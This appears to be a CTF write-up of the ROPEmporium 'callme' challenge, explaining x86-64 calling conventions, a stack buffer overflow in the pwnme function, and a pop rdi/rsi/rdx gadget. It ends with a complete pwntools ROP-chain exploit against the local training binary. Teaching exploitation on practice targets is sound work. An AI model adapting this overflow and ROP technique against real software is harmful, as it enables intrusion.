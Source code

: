 ```yaml
---
title: ROPEmporium - Callme
date: 2021-12-20 23:20:31
tags: [ropemporium, rop]
---
```


## Introduction

Challenge Description

The goal of the challenge is understanding how more than one argument is passed in x64 function. The challenge can be downloaded from the author`s website [ropemporium](https://ropemporium.com)

<!-- more -->

> Reliably make consecutive calls to imported functions.
> Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

> **You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

check the binary protections enabled on the `callme` binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior. radare2 is a powerful disassembler/debugging tool used for examining the behavior of programs.

![](/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command to disassemble a given function. Function **pwnme** looks similar to the previous challenges ret2win and split.

From the aDisassembled program, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/images/ropemporium/stack.png)

Next function is read function, which reads for user input and stores in the allocated buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From assembly code, we are reading `0x200` bytes from the standard input file descriptor and storing it in buffer, meaning we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, fill the buffer, overwrite rbp register and control the return address with desired address.

Because the system function receives one argument, look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/images/ropemporium/poprdi_callme.png)
Next is determine addresses of `callme_one`, `callme_two`, `callme_three` functions using gdb.

```nasm
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb)
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme, disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave
   0x000000000000092a <+272>:	ret
End of assembler dump.
(gdb)
```

From the disassembly code above, the function compares the arguments passed to the callme_one function. If string values are not equal to values passed to the `rdi`, `rsi` and `rdx` registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with controlled pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

Fully working rop chain code.

```python
import pwn

#Various setting for pwntools
pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)

callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Successful execution of the above code, correct flag is printed.

![](/images/ropemporium/callme-flag.png)
